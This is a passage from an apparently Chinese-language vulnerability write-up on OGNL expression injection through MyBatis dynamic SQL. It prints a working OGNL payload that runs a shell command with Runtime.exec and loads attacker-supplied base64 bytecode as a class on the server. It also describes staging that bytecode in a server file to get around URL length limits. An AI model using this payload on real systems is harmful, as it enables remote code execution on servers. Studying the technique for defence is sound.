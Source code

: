 但当时面临的实际情况是只支持 GET 请求，因为 URL 是有长度限制的，所以直接使用上面的方法也是不可行的，因为没法分段，只能一次性发送请求。最后的解决方法就是再绕一下，先把字节码的 base64 编码字符串先分段写入服务器文件，然后再去读取从而缩减 payload 的长度。  

```bash
${@org.springframework.cglib.core.ReflectUtils@defineClass('xxxx', @org.springframework.util.Base64Utils@decodeFromString(new String(@org.springframework.util.StreamUtils@copyToByteArray(@java.lang.Runtime@getRuntime().exec("cat /tmp/a").getInputStream())).replace("\n","")), new javax.management.loading.MLet(new java.net.URL[0],@java.lang.Thread@currentThread().getContextClassLoader()))}
```

![图片](assets/1706513706-21c580189ef7f5dd48299603792540a7.png)

  

![图片](assets/1706513706-5978ee2b8d006c656dd91fee433f7fdf.png)

  

漏洞原理

Mybatis3 是支持动态 SQL 的，根据动态 SQL 的描述得知是支持使用 OGNL 表达式的。其中 Mybatis 的 if、choose、when、otherwise、trim、where、set、foreach 等元素都支持动态 SQL。

![图片](assets/1706513706-1dfbaf1e5c4834444474085572069d1e.png)

  
